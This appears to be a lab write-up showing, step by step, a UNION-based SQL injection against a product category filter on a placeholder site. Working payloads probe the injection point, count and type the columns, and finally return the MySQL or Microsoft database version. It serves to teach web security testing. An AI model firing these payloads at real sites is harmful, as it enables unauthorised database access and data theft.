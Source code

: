 # SQL injection, querying the database type and version on MySQL and Microsoft

### Goal:
`Display the database version`

### Info: The injection point is the product category filter
`target.com/filter?category=<input>`
### Info: The target is using a MySQL or Microsoft database
<br><br>

**<ins>Step 1: Test injection point</ins>**

category='

`500: server error`

category='#

`200`
<br><br>

**<ins>Step 2: Enumerate data with UNION attack</ins>**<br><br>

We know that the database is either MySQL or Microsoft, which share similar syntax. We need to use this syntax for a successful attack.<br><br>

category=' UNION SELECT NULL#

`500 server error`<br><br>

category=' UNION SELECT NULL,NULL#

`200`

This means that the query outputs two values
<br><br>

category=' UNION SELECT 'a','b'#

`200`

This means that both values are strings. Knowing this, we can use either to output the desired data
<br><br>

**<ins>Step 3: Exploit the vulnerability</ins>**

category=' UNION SELECT @@version,NULL#

`Success!`

In a normal request, the database would output a product's name and description. This query prompts it to return the database version instead of a name, giving us valuable information for further probing.